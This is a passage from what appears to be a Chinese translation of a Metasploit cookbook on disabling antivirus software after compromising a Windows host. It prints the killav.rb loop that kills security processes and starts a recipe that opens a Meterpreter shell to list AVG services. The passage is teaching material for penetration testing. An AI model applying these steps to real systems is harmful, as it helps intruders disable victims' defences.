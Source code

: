 您会发现 ESET 杀毒软件没有活动进程。这表明脚本成功杀死了杀毒软件程序。这个例子清楚地展示了我们如何通过添加自己的输入来增加内置脚本的效率。

## 它是如何工作的...

让我们快速看一下我们在本篇文章中积极使用的`killav.rb`脚本。脚本包含一个数组（%W）中的整个进程列表，它在目标机器上查找并杀死。

```
client.sys.process.get_processes().each do |x|
if (avs.index(x['name'].downcase))
print_status("Killing off #{x['name']}...")
client.sys.process.kill(x['pid'])
end
end 
```

代码的最后几行是不言自明的。脚本在目标系统上查找正在运行的进程与其数组进行匹配。当找到匹配时，它使用`process.kill`函数来终止进程。这个循环会一直持续，直到数组的所有元素与可用进程匹配。

# 从命令行杀死杀毒软件服务

在上一篇文章中，我们给出了杀毒软件进程在使用`killav.rb`脚本后仍然运行的两个原因。在上一篇文章中，我们解决了第一个问题，即`killav.rb`列表不包括要被杀死的进程。在本篇文章中，我们将解决第二个问题，即杀毒软件程序在目标机器上作为服务运行。在我们继续之前，让我们先了解一下进程和服务之间的区别。

进程是计算机上正在运行的任何软件。一些进程在计算机启动时启动，其他的在需要时手动启动。一些进程是服务，它们发布方法以便其他程序可以根据需要调用它们。进程是基于用户的，而服务是基于系统的。

杀毒软件也可以作为服务运行一些组件，比如电子邮件过滤器、网络访问过滤器等。`killav.rb`脚本无法杀死服务。所以，即使我们使用`killav.rb`杀死了进程，杀毒软件服务也会立即重新启动它们。所以即使`killav.rb`杀死了所有杀毒软件进程，但每次使用`ps`命令时它们仍然被列出，那么可以得出结论，杀毒软件的某个组件作为服务在负责重复启动进程。

## 准备好了

我们将从一个场景开始，目标机器是运行 AVG 10 杀毒软件的 Windows 7 机器。我假设我们已经与目标机器建立了一个具有管理员权限的活动 meterpreter 会话。

## 如何做...

1.  这个配方将使用 Windows 命令提示符。所以我们将从打开一个带有目标的命令提示符 shell 开始。

```
meterpreter > shell
Process 3324 created.
Channel 1 created.
C:\WINDOWS\system32> 
```

1.  现在，我们将使用`tasklist`命令来查找各种可用任务。添加`/SVC`参数将只列出作为服务运行的进程。由于我们知道目标机器正在使用 AVG 杀毒软件，我们可以添加通配符搜索，只列出属于 avg 的服务。因此，我们的命令行将如下所示：

```
C:\WINDOWS\system32>tasklist /SVC | find /I "avg"
tasklist /SVC | find /I "avg"
avgchsvx.exe 260 N/A
avgrsx.exe 264 N/A
avgcsrvx.exe 616 N/A
AVGIDSAgent.exe 1664 AVGIDSAgent
avgwdsvc.exe 116 avg9wd
avgemc.exe 1728 avg9emc 
```
